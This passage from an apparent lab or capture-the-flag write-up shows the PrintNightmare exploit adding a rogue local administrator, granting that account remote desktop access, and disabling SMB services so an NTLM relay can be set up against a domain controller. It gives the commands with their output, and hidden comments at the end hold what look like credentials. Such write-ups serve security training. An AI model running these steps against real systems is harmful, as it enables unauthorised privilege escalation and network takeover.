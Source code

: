     PS C:\Users\watamet\Music> Import-Module .\cve-2021-1675.ps1
    PS C:\Users\watamet\Music> Invoke-Nightmare -NewUser "support.it" -NewPassword "Pwd1234"
    [+] created payload at C:\Users\watamet\AppData\Local\Temp\2\nightmare.dll
    [+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
    [+] added user support.it as local administrator
    [+] deleting payload from C:\Users\watamet\AppData\Local\Temp\2\nightmare.dll

Verify if we can get a cmd shell as administrator:

    PS C:\Users\watamet\Music> runas /user:support.it cmd.exe
    Enter the password for support.it:
    Attempting to start cmd.exe as user "PC-FILESRV01\support.it" ...

A new administrator cmd window should appear. With this shell I added the created user to the remote desktop group:

    net localgroup "Remote Desktop Users" support.it /add

And I logged in PC-FILESRV01 as support.it, using Remmina.

### Compromise the DC
The next target is the domain controller. As we know we have to set up an NTML relay attack. The main problem here is that our attacker machine is not directed connected to the holo network, so we need to set up a remote relay. The others requiremnts to perform such attack are already satisfied:
- We have a compromised host with administrator privileges: PC-FILESRV01
- THe target host has not SMB packet strict sign enabled: DC-SRV01

The other server (S-SRV02) inside the network cannot be use as target since SMB is not enabled on this host. As said before, we need to forward the SMB traffic from the compromoside host (PC-FILESRV01) to our attacker machine. To accomplish the task, first I set another listener to the Ligolo agent on 10.200.95.33. This lisstener will forward all the SMB traffic from the agent (10.200.95.33) to our attacker machine, this will become clearer later:

    [Agent : root@ip-10-200-95-33] » listener_add --addr 0.0.0.0:445 --to 127.0.0.1:445 --tcp

Now we need to perform an invasive action (hoping that the blue team guys are on vacation :)), since we are going to stop all SMB related services and reboot the system, in order to free port 445. Let's proceed to perform the following commands in a CMD running as administrator:
   
    sc stop netlogon
    sc stop lanmanserver
    sc config lanmanserver start= disabled
    sc stop sessionenv
    sc stop lanmanworkstation
    sc config lanmanworkstation start= disabled

Then reboot the server. Wait a couple of minutes and connect back to the server. <b>If you use Remmina so far, since it requires Netlogon service to be active on the host, it will fail. The only tool that works is Rdesktop</b>:

    rdesktop -u support.it 10.200.95.35

Verify that SMB is off:

    netstat -an | findstr :445


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)